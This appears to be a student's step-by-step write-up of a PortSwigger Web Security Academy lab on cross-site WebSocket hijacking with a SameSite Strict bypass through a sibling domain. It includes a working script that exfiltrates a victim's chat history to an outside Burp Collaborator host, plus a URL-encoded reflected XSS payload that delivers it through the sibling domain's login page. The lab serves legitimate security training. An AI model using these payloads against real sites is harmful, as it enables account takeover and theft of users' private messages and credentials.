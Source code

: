 # SameSite Strict bypass via sibling domain

## This lab's live chat feature is vulnerable to [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) ([CSWSH](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)). To solve the lab, log in to the victim's account.

## To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

## If you haven't done so already, we recommend completing our topic on [WebSocket vulnerabilities](https://portswigger.net/web-security/websockets) before attempting this lab.

`https://0a74003f04ae070c81a0d930002f007f.web-security-academy.net/chat`

---

### step 1

open lab click on live chat and see history in burpsute

![[lab9_cms_link_dulicate_url.png]]

### step2

`https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net`
click on cms link
it will open login page

![[lab9_cms_login_page.png]]

click on login alert pop will com

![[lab9_cms_link_alert_pop.png]]

### step3

copy chat url
`https://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`

for making chat url
remove https and add wss
`wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`
use below script

### HINT:

```html
<script>
  var ws = new WebSocket("wss://YOUR-LAB-ID.web-security-academy.net/chat");
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://YOUR-COLLABORATOR-PAYLOAD.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

change according to script and upload to explot and store and view expolit and pull burp collebrator

```html
<script>
  var ws = new WebSocket(
    "wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat"
  );
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://cdtqf729k3ob5xfk7n3ezkm80z6qugi5.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

![[lab9_burpcollab_http_dns.png]]

![[lab9_chat_after_payload_samesite_strict.png]]

before payload
it was without same site
![[lab9_chat_page_no_same_site.png]]

### step4

### HINT:

```html
<script>
  document.location =
    "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

change according to script and put into expolit and pull burp colleb

```html
<script>
  document.location =
    "https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%62%64%30%30%39%34%30%33%36%64%62%36%35%65%38%32%64%32%35%63%37%35%30%30%35%34%30%30%30%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%63%64%74%71%66%37%32%39%6b%33%6f%62%35%78%66%6b%37%6e%33%65%7a%6b%6d%38%30%7a%36%71%75%67%69%35%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

![[lab9_burpcollab_username_password.png]]
